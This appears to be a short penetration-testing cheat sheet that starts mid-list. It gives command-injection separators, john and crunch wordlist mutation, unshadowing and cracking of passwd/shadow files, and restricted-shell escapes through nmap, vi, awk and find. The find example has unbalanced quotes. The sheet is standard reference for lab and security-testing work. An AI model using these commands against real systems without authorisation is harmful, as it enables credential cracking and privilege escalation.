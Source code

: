 ## (From within nmap)
```
!sh
```
## Command Injection
```
;
&&
|
||
...
```
## Password (Wordlists)
```
john --wordlist=test.txt --stdout --rules:Jumbo >> mutilated.txt
crunch 10 10 -t ,%Curtains -o ./worlist.curtains
```
## Password Cracking
```
Combine the provided passwd (passwd) and shadow (shadow)(shadow) and redirect them to a file (> unshadowed.txt)
unshadow passwd shadow > unshadowed.txt
john --wordlist=rockyou.txt --rules unshadowed.txt 
```
## Web Server
```
python -m SimpleHTTPServer 8000
```
## Quick Base64 Decoder
```
echo aGVsbG8gd2hpdGUgaGF0Cg== | base64 -d
```
## Break Restricted Shells
```
Recon of restricted shells: "env" command to see what the restricted shell path is
then echo /usr/local/rbin/* or ls -al /usr/local/rbin/*
once paths are listed, research each one to see options
export -p shows which variables are read only
```
## (VI or VIM Method)
```
Open a file and enter the following
:set shell=/bin/bash
:shell
or
:! /bin/bash
```
## (AWK Method)
```
awk 'BEGIN {system("/bin/sh")}'
```
## (Find Method)
```
find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```